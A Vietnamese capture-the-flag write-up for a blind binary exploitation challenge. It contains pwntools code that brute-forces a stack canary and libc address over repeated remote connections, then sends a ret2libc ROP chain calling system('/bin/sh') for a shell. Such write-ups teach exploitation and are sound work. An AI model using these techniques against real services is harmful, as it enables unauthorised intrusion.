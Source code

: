 # warmup
- Bài này dạng blind, trong KCSCCTF cũng có dạng tương tự nhưng lần này biến đổi 1 xíu
- Chương trình sẽ tạo cho ta 1 port khác để ta brute-force
- Do port này không thay đổi canary với mỗi lần `remote`.
- Đầu tiên ta cần brute-force canary
```python
canary = []
for i in range (8):
    for j in range(0x100):
        while(True):
            try:
                p = remote(HOST, PORT, timeout=5)
                break
            except:
                j-=1
                sleep(3)
                continue
        payload = b"a" * 56 + b"".join([p8(b) for b in canary]) + p8(j)
        s(payload)
        data = p.recvrepeat(timeout=10)
        print(f"Trying: {hex(j)}")
        
        if b"*** stack smashing detected ***" not in data:
            canary.append(j)
            info(f"Canary: {canary}")
            p.close()
            
            break
        p.close()
```

- Lần thứ 2 ta sẽ brute-force để leak libc
- Ta để ý có đoạn trong chương trình như này
```c
  if ( check )
  {
    puts("This is helper for you\n");
    return 0;
  }
```
- Nghĩa là nếu ta thay đổi rip để chương trình lặp lại hàm main thì nó sẽ in ra dòng `"This is..`
- Để có thể loop lại về main mà vẫn leak được libc thì ta kiểm tra ở `__libc_start_main`
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/50c237f4-072f-49bd-be29-e52ed922dd71)
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/40d88f53-f165-477d-8f74-40edeb9eeb4c)
- Vậy ta biết được 1byte của libc là `0x89`, nó kiểu như dừng gadget vậy 
```python
libc_leak = [0x89]
for i in range(8):
    for j in range(0, 0x100):
        while(True):
            try:
                p = remote(HOST, PORT, timeout=5)
                break
            except:
                j-=1
                sleep(3)
                continue
        s(payload + b"".join([p8(x) for x in libc_leak]) + p8(j))
        data = p.recvrepeat(timeout=10)
        info("" + str(j))
        if b"This is helper for you" in data:
            libc_leak.append(j)
            info(f"Libc: {libc_leak}")
            p.close()
            break
        p.close()
```
- Cuối cùng là ret2libc (không dùng one_gadget vì nó có độ rủi ro tạch, nên ret2libc là an toàn nhất)

```python
p = remote(HOST, PORT, timeout=5)
print(canary)
print(libc_leak)
libc_leak = libc_leak[::-1]
libc_leak = "0x" + "".join(hex(x)[2:] for x in libc_leak)
libc_leak = int(libc_leak, 16)
libc.address = libc_leak - 0x23a89
info("libc base: " + hex(libc.address))
info("leak" + hex(libc_leak))
pop_rdi = libc.address + 0x00000000000240e5
payload += flat(
    pop_rdi, next(libc.search(b'/bin/sh')),
    libc.address + 0x0000000000022fd9, libc.sym['system']
)
s(payload)
```
# Kết quả
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/65bce9cf-79ab-4d5f-8f47-6bae308c0372)
